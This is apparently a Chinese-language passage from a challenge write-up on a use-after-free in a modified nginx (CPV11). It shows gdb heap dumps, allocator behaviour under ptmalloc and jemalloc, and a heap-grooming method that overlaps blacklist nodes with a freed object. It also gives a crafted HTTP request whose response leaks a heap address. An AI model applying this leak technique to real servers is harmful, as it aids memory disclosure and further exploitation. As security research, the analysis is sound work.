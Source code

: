   
此处存在漏洞的 UAF 对象是ngx_host_specs_t，它属于 0x20 sizeclass（对象大小为 0x18）。与 CPV9 一样，我们也缺少 0x20 sizeclass 的堆小工具……我唯一知道的小工具是黑名单节点，它是 CPV9 中的漏洞对象。  
- ptmalloc (有和无优化)  
  
从工作进程释放的ngx_host_specs_t对象的前两个字段被清零，而在主线程中则用堆元数据填充。这是因为该ngx_host_specs_t对象是在主进程中释放的，并且主进程在分配的前两个字段中写入了 tcache 键和混乱的下一个指针。  
  
```
gef➤ p *(ngx_host_specs_t *)0x601a05991f40$3 = {  host_cpu = 0x0,  host_mem = 0x0,  host_os = 0x601a05992040}
```  
  
  
*工作进程gdb查看。  
  
```
gef➤ p *(ngx_host_specs_t *)0x601a05991f40$1 = {  host_cpu = 0x601a05991,  host_mem = 0xd213200cf2633c78,  host_os = 0x601a05992040}
```  
  
*掌握进程gdb查看。  
  
由于释放的内存ngx_host_specs_t在主进程的 tcache 中，因此我无法将其与黑名单节点重叠。触发 UAF 读取原语ngx_http_get_host_specs将导致工作进程崩溃，因为取消引用了无效指针而导致DoS 。  
  
```
static ngx_int_t ngx_http_get_host_specs(ngx_http_request_t *r,    ngx_http_variable_value_t *v, uintptr_t data){    u_char *temp;    v->data = ngx_pnalloc(r->pool, NGX_MAX_HOST_SPECS_LINE * 3);    if (v->data == NULL) {        return NGX_HTTP_INTERNAL_SERVER_ERROR;    }    ngx_memzero(v->data, NGX_MAX_HOST_SPECS_LINE * 3);    temp = v->data;    v->data = ngx_sprintf(v->data, "%s", r->cycle->host_specs->host_cpu->data); // NO CHERI crash CPV11 (UAF)    v->data = ngx_sprintf(v->data, "%s", r->cycle->host_specs->host_mem->data);    v->data = ngx_sprintf(v->data, "%s", r->cycle->host_specs->host_os->data);    v->len = v->data - temp;    v->data = temp;    return NGX_OK;}
```  
  
- jemalloc (有和无优化)  
  
这是已释放的主机规格对象。  
  
```
gef➤ p *(ngx_host_specs_t*)0x73e067a340a0$2 = {  host_cpu = 0x73e067a1d020,  host_mem = 0x73e067a1d030,  host_os = 0x73e067a1d040}
```  
  
  
然后我们让第一个黑名单节点与释放的主机规范对象重叠。prev仍然是前一个host_os指针，IP是最近分配的ngx_str_t，为了使其next非空，我们至少分配一个黑名单节点。next是一个指向黑名单节点的指针，但我们将其与 重叠host_mem，这是一个ngx_str_t。所以我们分配另一个黑名单节点来填充指向 的指针host_mem->data（与 重叠）。打印主机规范时，我们泄露了第三个节点next->next的地址，这是一个最近分配的堆对象。IP0x73e067a1d0a0  
  
```
gef➤ p *(ngx_black_list_t *)0x73e067a340a0$7 = {  IP = 0x73e067a1d060,next = 0x73e067a340c0,prev = 0x73e067a1d040}gef➤ p *(ngx_black_list_t *)0x73e067a340c0$8 = {  IP = 0x73e067a1d080,next = 0x73e067a340e0,prev = 0x73e067a340a0}gef➤ p *(ngx_black_list_t *)0x73e067a340e0$9 = {  IP = 0x73e067a1d0a0,next = 0x0,prev = 0x73e067a340c0}
```  
  
  
  
```
GET/host_specs HTTP/1.1Host: localhostConnection: CloseBlack-List: 111.111.111.111;222.222.222.222;333.333.333.333;444.444.444.444;HTTP/1.1 200 OKServer: nginx/1.24.0Date: Mon, 17 Feb 2025 17:06:18 GMTContent-Type: text/plainContent-Length: 63Connection: closeHostSpecifications:111.111.111.111�Сg�s"Ubuntu 24.04.1LTS"
```  
  